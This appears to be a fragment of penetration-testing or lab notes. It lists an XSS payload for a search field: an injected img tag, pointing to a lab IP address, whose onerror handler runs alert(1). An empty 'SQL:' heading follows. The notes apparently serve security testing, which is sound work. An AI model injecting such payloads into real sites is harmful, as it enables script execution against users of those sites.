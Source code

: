 
XSS: Search field  
```html
</p><img src="http://192.168.119.166:8080/yeah.jpg" onerror="alert(1);">
```


SQL:
